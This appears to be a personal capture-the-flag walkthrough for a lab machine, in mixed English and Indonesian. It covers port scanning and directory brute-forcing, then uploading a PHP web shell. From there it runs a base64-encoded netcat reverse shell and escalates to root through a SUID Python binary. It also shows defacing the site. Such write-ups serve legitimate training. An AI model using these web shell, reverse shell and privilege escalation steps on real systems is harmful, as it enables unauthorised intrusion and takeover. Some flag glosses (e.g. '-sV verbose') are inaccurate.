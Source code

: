 # root me
- tool: gobuster
- web: cyberchef, revshell, gtfgobins

## task 1
- deploy
- ip = 10.10.1.253

## task 2
- scan the machine how many ports are the open? 2
  - ```nmap -sC -sV 10.10.1.253 -oN ip.log```
  - -sC vulnerabilty, -sV verbose, -oN outputNormal, ip.log nama_file
- What version of Apache is running? 2.4.29
- What service is running on port 22? ssh
- Find directories on the web server using the GoBuster too? /panel/
  - ```gobuster dir -u http://10.10.1.253/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```
    - gobuster =brute force direcotry tersembunyi pada situs web
    - dir = type directory
    - -u = destination url
    - -w = file worldlist

## task 3
- Getting a shell
  - open "http://10.10.1.253/panel" in browser
  - create some file php injection
    ```
    exmple PHP Injection Using eval() Function

    $myvar = "varname";
    $x = $_GET['arg'];
    eval("$myvar = $x;");
    ```
    ```<php echo system($_GET['c']); ?>``` in file sh.php5
  - open "http://10.10.1.253/uploads" and click sh.php5
  - add ```?c=ls``` in last url
- make revese shell
  - open cyberchef, revshell
    - revshell: add option ur ip ex: 10.10.1.1, and port 9001
    - copy Listener "nc -lvnp 9001" and paste in terminal
    - copy script: ncmkfifo 
    - open cyberchef: add to base64
    - paste script
    - copy script base64
  - and add url ```?c=echo script_base64_falkjfalkfgjalfa | base64 -d > shell.sh```
    ```
    ?c=chmod 777 shell.sh
    ?c=bash shell.sh
    ```
  - open terminal (dont forget paste listener before "bash shell.sh")
    - ```nc -lvnp 9001``` after that reverse connector is connect
    - $whoami
  - fiexd terminal
    - nampilin lokasi file, dan ubah variable terminal TERM menjadi xterm
    ```
    python3 -c "import pty; pty.spawn('/bin/bash')"
    export TERM=xterm
    ```
    - ctrl z
    ```
    stty raw -echo;fg;
            reset
    ```
  - find user.txt
    ```
    cd /var/www
    ls -la
    cat user.txt
    ```

## task 4
- Search for files with SUID permission, which file is weird?
  - use find
    ```
    find / -user root -perm /4000
    find / -perm /4000 2>dev/null
    find / -type f -name user.txt 2> /dev/null
    ```
    - find /usr/bin/python if have python u can use python in this terminal
  - find SUID in gtfobins
    - find: python SUID, and copy
    - ```python -c 'import os; os.execl("/bin/bash", "bash", "-p")'```
  - access root
    ```
    cd root
    ls -la
    cat root.txt
    ```
  - u can also change the website
    ```
    cd /var/www/html
    nano index.php
    systemctl restart apache2
    ```